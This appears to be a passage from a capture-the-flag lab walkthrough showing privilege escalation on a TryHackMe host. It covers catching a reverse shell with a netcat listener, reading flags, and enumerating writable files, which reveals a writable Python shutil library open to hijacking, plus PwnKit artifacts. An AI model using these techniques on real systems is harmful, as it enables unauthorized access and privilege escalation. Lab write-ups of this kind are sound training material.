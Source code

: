   ```
  lucien@ip-10-10-60-142:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py 
  Alice + Flying in the sky
  
  Bob + Exploring ancient ruins
  
  Carol + Becoming a successful entrepreneur
  
  Dave + Becoming a professional musician
  
  rm: cannot remove '/tmp/f': No such file or directory
  
  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.60.142] 39640
  $ whoami
  death
  $ id
  uid=1001(death) gid=1001(death) groups=1001(death)
  ```

- Read `death` flag and then move to `morpheus` flag.

- Here I found these bad bois:

  ```
  death@ip-10-10-60-142:/home/morpheus$ cat kingdom 
  We saved the kingdom!
  
  death@ip-10-10-60-142:/home/morpheus$ cat restore.py 
  from shutil import copy2 as backup
  
  src_file = "/home/morpheus/kingdom"
  dst_file = "/kingdom_backup/kingdom"
  ```

- This `restore.py` script can be our way to the flag. Since it uses `shutil` which is a Python module, let's check if we can write to it and since it's purpose is to create backups we will check if it is running in the background like a cronjob.

  ```
  find / -type f -not -path "/proc/*" -not -path "/sys/*" -not -path "/home/death/*" -writable 2>/dev/null

  death@ip-10-10-60-142:/$ find / -type f -not -path "/proc/*" -not -path "/sys/*" -not -path "/home/death/*" -writable 2>/dev/null
  /var/www/html/app/pluck-4.7.13/data/settings/token.php
  /var/www/html/app/pluck-4.7.13/data/settings/install.dat
  /var/www/html/app/pluck-4.7.13/data/settings/langpref.php
  /var/www/html/app/pluck-4.7.13/data/settings/update_lastcheck.php
  /var/www/html/app/pluck-4.7.13/data/settings/pages/1.dreaming.php
  /var/www/html/app/pluck-4.7.13/data/settings/themepref.php
  /var/www/html/app/pluck-4.7.13/data/settings/pass.php
  /var/www/html/app/pluck-4.7.13/data/settings/options.php
  /var/www/html/app/pluck-4.7.13/data/trash/files/shell.php.txt
  /dev/shm/.pkexec/gconv-modules
  /dev/shm/GCONV_PATH=./.pkexec
  /dev/shm/PwnKit
  /usr/lib/python3.8/shutil.py
  /opt/getDreams.py
  
  death@ip-10-10-60-142:/home/morpheus$ ps aux | grep '[p]ython'
  root         709  0.0  1.3  29672 12500 ?        Ss   20:09   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
  root         813  0.0  1.2 107952 11744 ?        Ssl  20:09   0:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
  ```
